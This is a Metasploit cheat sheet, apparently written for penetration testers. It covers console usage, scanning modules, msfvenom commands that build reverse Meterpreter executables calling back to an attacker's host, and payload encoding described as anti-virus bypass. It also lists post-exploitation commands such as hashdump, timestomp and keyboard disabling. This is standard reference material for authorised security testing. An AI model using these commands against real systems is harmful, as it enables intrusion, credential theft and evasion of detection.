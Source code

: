 # Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```bash
msf > search [regex]
```

- ###### Specify and exploit to use:

```bash
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```bash
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```bash
msf > show options
```

- ###### Set options:

```bash
msf > set [Option] [Value]
```

- ###### Start exploit:

```bash
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```bash
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```bash
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```bash
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```bash
msf > use auxiliary/server/socks4
msf > run 
```
***

### msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```bash
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

- ##### Format Options **(specified with –f)** --help-formats – List available output formats

    -  `-exe` – Executable
    -  `-pl` – Perl
    -  `-rb` – Ruby
    -  `-raw` – Raw shellcode
    -  `-c` – C code

- ##### Encoding Payloads with msfvenom

msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.

```bash
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

- ##### Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
```
***

### Metasploit Meterpreter

- ##### Base Commands: 

    - `? / help` : Display a summary of commands exit / quit: Exit the Meterpreter session

    - `sysinfo`: Show the system name and OS type

    - `shutdown / reboot` : Self-explanatory

- ##### File System Commands:

    - `cd` : Change directory

    - `lcd` : Change directory on local (attacker's) machine

    - `pwd / getwd` : Display current working directory
    
    - `ls` : Show the contents of the directory

    - `cat` : Display the contents of a file on screen

    - `download / upload` : Move files to/from the target machine

    - `mkdir / rmdir` : Make / remove directory

    - `edit` : Open a file in the default editor (typically vi)

- ##### Process Commands:

    - `getpid` : Display the process ID that Meterpreter is running inside.

    - `getuid` : Display the user ID that Meterpreter is running with.

    - `ps` : Display process list.

    - `kill` : Terminate a process given its process ID.

    - `execute` : Run a given program with the privileges of the process the Meterpreter is loaded in.

    - `migrate` : Jump to a given destination process ID

- ##### Network Commands:

    - `ipconfig` : Show network interface information

    - `portfwd` : Forward packets through TCP session

    - `route` : Manage/view the system's routing table

- ##### Other Commands:

    - `idletime`: Display the duration that the GUI of thetarget machine has been idle.

    - `uictl [enable/disable] [keyboard/mouse]` : Enable/disable either the mouse or keyboard of the target machine.

    - `screenshot` : Save as an image a screenshot of the target machine.

- ##### Additional Modules:

    - `use [module]` : Load the specified module
    
      - **Examples**:

        -  `use priv` : Load the priv module

        - `hashdump` : Dump the hashes from the box

        - `timestomp` : Alter NTFS file timestamps
